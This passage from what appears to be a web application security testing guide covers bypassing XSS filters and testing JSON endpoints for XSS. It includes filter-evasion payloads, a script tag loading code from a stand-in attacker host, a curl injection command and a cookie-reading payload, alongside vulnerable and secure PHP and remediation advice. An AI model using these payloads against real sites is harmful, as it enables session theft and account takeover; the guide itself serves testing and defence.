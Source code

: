 ### 4. Bypass XSS Filters

**Objective**: Test if filters or WAFs can be bypassed.

**Steps**:
1. Encode payloads:
   - Use PCE to encode `<script>` to `%3cscript%3e`.
   - Test: `?q=%3cscript%3ealert(123)%3c/script%3e`.
2. Try case variations:
   - Test: `<ScRiPt>alert(123)</ScRiPt>`.
3. Test nested payloads:
   - Test: `<scr<script>ipt>alert(123)</script>`.
4. Test HTTP Parameter Pollution (HPP):
   - Test: `?q=<script>&q=alert(123)</script>`.
5. Verify results:
   - If an alert appears, the filter was bypassed.

**Example Vulnerable Code (PHP)**:
```php
<?php
$input = preg_replace("/<script[^>]+src/i", "", $_GET['q']);
echo $input;
?>
```
Test: `?q=<SCRIPT a=">" SRC="http://attacker/xss.js"></SCRIPT>`
Result: Filter bypassed, script loads.

**Example Secure Code (PHP)**:
```php
<?php
echo htmlspecialchars($_GET['q'], ENT_QUOTES, 'UTF-8');
?>
```
Test: `?q=<SCRIPT a=">" SRC="http://attacker/xss.js"></SCRIPT>`
Result: No execution.

**Remediation**:
- Decode inputs before validation:
  ```php
  $input = urldecode($_GET['q']);
  ```
- Use recursive sanitization or libraries like DOMPurify.

**Tip**: Save successful bypass payloads in a report.

### 5. XSS in JSON Responses

**Objective**: Test JSON endpoints for unescaped input reflection.

**Steps**:
1. Identify JSON endpoints:
   - Use Burp to find APIs (e.g., `/api/search?q=test`).
   - Check for JSON responses (e.g., `{"result":"test"}`).
2. Inject payloads:
   - Test: `?q="};alert(123);//`.
   - Use Burp Repeater or cURL:
     ```bash
     curl -i "http://example.com/api/search?q=%22%7D;alert(123);//"
     ```
3. Check client-side rendering:
   - Use Network tab to view JSON.
   - Check if the payload executes when rendered.
4. Verify impact:
   - Test: `?q="};alert(document.cookie);//`.

